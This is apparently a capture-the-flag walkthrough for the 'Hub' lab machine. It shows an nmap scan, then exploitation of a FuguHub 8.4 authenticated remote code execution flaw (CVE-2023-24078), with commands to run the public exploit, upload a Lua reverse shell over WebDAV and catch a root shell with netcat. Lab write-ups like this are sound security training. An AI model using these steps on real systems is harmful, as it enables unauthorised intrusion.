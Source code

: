 # **HUB | PG Practice**

***
## Part 4 of Mid Year CTF machines

## Released on: **Jun 16, 2023**

## Walkthrough: **Yes**
***


Running our nmap scan we have the following open ports


```bash
# Nmap 7.94SVN scan initiated Wed Feb 28 06:33:33 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.227.25
Warning: 192.168.227.25 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.227.25
Host is up (0.14s latency).
Not shown: 65456 closed tcp ports (conn-refused), 75 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: 403 Forbidden
8082/tcp open  http     Barracuda Embedded Web Server
|_http-server-header: BarracudaServer.com (Posix)
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Wed, 28 Feb 2024 05:35:21 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
|_http-title: Home
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Wed, 28 Feb 2024 05:35:22 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-server-header: BarracudaServer.com (Posix)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Issuer: commonName=Real Time Logic Root CA/organizationName=Real Time Logic LLC/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-07-16T19:15:09
| Not valid after:  2074-04-18T19:15:09
| MD5:   6320:2067:19be:be32:18ce:3a61:e872:cc3f
|_SHA-1: 503c:a62d:8a8c:f8c1:6555:ec50:77d1:73cc:0865:ec62
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 28 06:35:28 2024 -- 1 IP address (1 host up) scanned in 115.13 seconds
```




Navigating to [http://192.168.227.25/](http://192.168.227.25/) we have a **"403 Forbidden"** message from a web server known as nginx


![](https://i.imgur.com/Nkq6YCA.png)

Whereas checking [http://192.168.227.25:8082/](http://192.168.227.25:8082/) we are asked to set an administrator password first (Baaaddd Security!! :{)

![](https://i.imgur.com/XU9QKCX.png)


Successfully set up the administrator account with username: `admin` and password: `admin123`

![](https://i.imgur.com/Cd648Mf.png)


Navigating to the about section of this page i found a version disclosure of this web application called `FuguHub 8.4`



![](https://i.imgur.com/dMd7u9s.png)


searching for an exploit, I found [this](https://github.com/overgrowncarrot1/CVE-2023-24078) Authenticated Remote Code Execution vulnerability 


![](https://i.imgur.com/P3YwsS9.png)


However running this exploit gave us this error, Looks like it is trying to create and admin user but can't because we have already done that, we can go ahead and revert the box then try again


![](https://i.imgur.com/weVhqzj.png)


Running the exploit we get another browser pop-up, make sure to leave it open, according to the instructions the exploit has created a `lua.lsp` file for us locally that contains our reverse shell, let go ahead and do this


```bash
python3 CVE-2023-24078.py -p 4444 -l 192.168.45.209 -r 192.168.227.25 -P 8082
```


![](https://i.imgur.com/M4AiPru.png)


First of all on the new popped-up browser you should see a link make sure to copy the link has this is the location we are uploading our reverse shell to


![](https://i.imgur.com/3VTOOg5.png)


Now run `cadaver` in which folder the `lua.lsp` file was created in and upload the file to the web application

```bash
cd CVE-2023-24078
cadaver http://192.168.227.25:8082/fs/d0ffb9d2dccff24883a23236/
cd ..

# Username: adm1n
# Password: *********

put lua.lsp
```


![](https://i.imgur.com/02H14CG.png)



Start up your listener with netcat then navigate back to the major exploit page and hit the "**Enter**" key on your keyboard and you should have your shell back


```
nc -lvnp 4444
```



![](https://i.imgur.com/gZomFTx.png)



Then we have our reverse shell back as root

![](https://i.imgur.com/9kt0fhQ.png)

GG
